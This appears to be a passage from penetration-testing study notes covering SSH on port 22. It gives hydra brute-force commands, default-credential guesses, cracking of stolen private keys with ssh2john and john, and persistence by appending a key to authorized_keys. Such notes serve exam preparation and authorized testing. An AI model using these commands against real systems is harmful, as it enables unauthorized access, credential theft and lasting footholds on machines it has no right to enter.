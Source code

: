 * To upload files `put` and to download `get`
* The exploit I failed to find at first attempt [uftp-dirtrav-exp]()

## 22 - SSH

* brute force
```
hydra -l users.txt -p /usr/share/wordlists/rockyou.txt ssh://$IP -vv
```

* Check for default usernames and passwords such as `root:root` `admin:password` `admin:admin`
* Check for Null, Login same as Pass and Reverse the login as pass via `-e nsr`

```text
hydra -l users.txt -e nsr ssh://$IP -vv
```

* check for `/home/user/.ssh/id_rsa` and change it's permissions with `chmod 600 id_rsa`

```text
ssh -i id_rsa user@$IP
```

* If the id_rsa requires password, use `ssh2john id_rsa id_rsa_hash` then use john as below

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash
```

* Config files
```text
ssh_config
sshd_config
authorized_keys
ssh_known_hosts
known_hosts
id_rsa
```

* maintain access with

```text
ssh-keygen
```

* Copy the generated id_rsa.pub to  the authorized_keys

```text
echo your_public_key >> ~/.ssh/authorized_keys
```

* File Transfers Upload to the box

```text
scp file.ext user@$IP:/home/user/
```

* File Transfers Download from the box

```text
scp rzgami@kali:/home/rzgami/oscp/ /etc/something
```
